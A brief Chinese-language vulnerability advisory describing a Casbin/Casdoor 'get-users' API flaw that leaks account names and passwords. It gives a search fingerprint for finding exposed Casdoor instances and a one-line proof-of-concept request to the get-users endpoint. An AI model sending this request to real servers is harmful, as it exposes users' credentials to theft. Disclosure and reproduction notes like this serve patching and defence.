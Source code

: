 # Casbin get-users 账号密码泄漏漏洞

## 漏洞描述

Casbin get-users api接口存在账号密码泄漏漏洞，攻击者通过漏洞可以获取用户敏感信息

## 漏洞影响

<a-checkbox checked>Casbin</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Casdoor"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1646232783496-55549f0b-2c00-4f19-93bd-764b2df2d7e1.png)

验证POC

```javascript
/api/get-users?p=123&pageSize=123
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1646232815871-7695e1f9-9425-44a5-bece-8a511e757461.png)

